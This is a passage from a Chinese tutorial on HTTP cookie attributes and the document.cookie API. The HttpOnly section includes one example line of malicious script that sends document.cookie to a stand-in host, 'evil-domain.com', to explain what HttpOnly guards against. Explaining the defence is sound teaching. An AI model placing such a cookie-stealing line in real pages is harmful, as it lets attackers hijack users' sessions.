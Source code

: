 #### Max-Age
`Max-Age` 属性指定了从现在开始 Cookie 存在的秒数，比如 `60 * 60 * 24 *365` (即一年)。过了这个时间以后，浏览器就不再保留这个 Cookie。
如果同时指定了 `Expires` 和 `Max-Age`，那么 `Max-Age` 的值将优先生效。
如果 `Set-Cookie` 字段没有指定 `Expires` 或 `Max-Age` 属性，那么这个 Cookie 就是 Session Cookie，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个 Cookie。
#### Domain
`Domain` 属性指定浏览器发出 HTTP 请求时，哪些域名要附带这个 Cookie。如果没有指定该属性，浏览器会默认将其设为当前域名，这时子域名将不会附带这个 Cookie。比如 `baidu.com` 不设置 Cookie 的 `domain` 属性，那么 `new.baidu.com` 将不会附带这个 Cookie。如果指定了 `domain` 属性，那么子域名也会附带这个 Cookie。如果服务器指定的域名不属于当前域名，浏览器会拒绝这个 Cookie。

#### Path
`Path` 属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。只要浏览器发现，`Path` 属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，`Path` 的属性是 `/`，那么请求 `/new`路径也会包含该 Cookie。当然，前提是域名必须一致。

#### Secure
`Secure` 属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie 发送到服务器。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的 `Secure` 属性。该属性只是一个开关，不需要指定值。如果通信时 HTTPS 协议，该开关自动打开。

#### HttpOnly
`HttpOnly` 属性指定该 Cookie 无法通过 JavaScript 脚本拿到，主要是 `Document.cookie` 属性、`XMLHttpRequest` 对象和 `Request` API 都拿不到该属性。这样就防止了该 Cookie 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 Cookie。
```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie 发往第三方服务器。如果设置了一个 Cookie 的 `HttpOnly` 属性，上面代码就不会读到该 Cookie。
### document.cookie
```
`document.cookie`   // "age=28; user=tom"
```
上面代码从 `document.cookie` 一次性读出俩个 Cookie，它们之间使用分号分隔。必须手动还原，才能取出每一个 Cookie 的值。
```
var cookies = document.cookie.split(";");
for (var i = 0; i < cookies.length; i++) {
    console.log(cookies[i]);
}
// age=28
// user=tom
```
`document.cookie` 属性是可写的，可以通过它为当前网站添加 Cookie。
```
document.cookie = 'fontSize=14';
```
写入的时候，Cookie 的值必须写成 `key=value`的形式。注意，等号俩边不能有空格。另外，写入 Cookie 的时候，必须对分号、逗号和空格进行转义 (它们都不允许作为 Cookie 的值)，这可以用 `encodeURIComponent` 方法达到。

但是，`document.cookie` 一次只能写入一个 Cookie，并且写入并不是覆盖，而是添加。
```
document.cookie = 'test1=hello';
document.cookie = 'test2=world';
document.cookie
// test1=hello;test2=world
```
`document.cookie` 读写行为的差异 (一次可以读出全部 Cookie，但是只能写入一个 Cookie)，与 HTTP 协议的 Cookie 通信格式有关。浏览器向服务器发送 Cookie 的时候，`Cookie` 字段是使用一行将所有 Cookie 全部发送；服务器向浏览器设置 Cookie 的时候，`Set-Cookie` 字段是一行设置一个 Cookie。
